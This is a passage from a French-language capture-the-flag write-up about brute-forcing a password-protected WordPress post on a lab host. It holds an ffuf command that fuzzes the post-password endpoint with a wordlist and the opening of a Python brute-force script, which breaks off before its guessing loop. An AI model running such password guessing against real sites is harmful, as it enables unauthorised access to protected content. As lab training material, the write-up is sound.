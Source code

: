 Pas de plugins détectés, pas terrible...

## Du nouveau dans la boîte à outs'

Intrigué par ce post protégé par mot de passe j'ai d'abord tenté de le brute-forcer simplement à l'aide de `ffuf` :

```bash
ffuf -X POST -u 'http://vengeance.goodtech.inc/wp-login.php?action=postpass' \
  -d 'post_password=FUZZ&Submit=Enter' -H 'Content-Type: application/x-www-form-urlencoded' \
  -H "Referer: http://vengeance.goodtech.inc/?p=23" -w dico.txt -r -fw 1077
```

Mais cela n'a mené nulle part. La cause principale, c'est que la réponse donnée par le serveur est la même que le mot de passe soit valide ou non : un code 302 redirigeant vers le post mentionné par l'entête `Referer`.

En théorie ça devrait marcher sauf que `ffuf` ne doit pas conserver les cookies d'une requête à l'autre.

Finalement j'ai écrit le code suivant :

```python
# Wordpress Passowrd-Protected Post brute force tool
# https://devl00p.github.io/ - 2023
import sys

import requests
from requests.exceptions import RequestException
from bs4 import BeautifulSoup

if len(sys.argv) < 2:
    print(f"Usage: python {sys.argv[0]} wp_post_url wordlist_file")
    sys.exit()

sess = requests.Session()
sess.timeout = 10

try: 
    response = sess.get(sys.argv[1])
except RequestException as err:
    print(f"Could not fetch webpage: {err}")
    sys.exit()

# Fetch the post URL to find where to submit the password
soup = BeautifulSoup(response.text, "html.parser")
form = soup.find("form", action=True, class_="post-password-form")
if not form:
    print("Can't find WP login URL!")
    sys.exit()

wp_login_url = form["action"]

print(f"Wordpress login URL is at {wp_login_url}")

# Now try with an invalid password to see how it behaves
response = sess.post(
    wp_login_url,
    data={"post_password": "thisisnotavalidpassword", "Submit": "Enter"},
    headers={"Referer": sys.argv[1]},
)

if 'class="post-password-form"' not in response.text:
    print("Expected behavior not found, can't brute-force")
    sys.exit()

```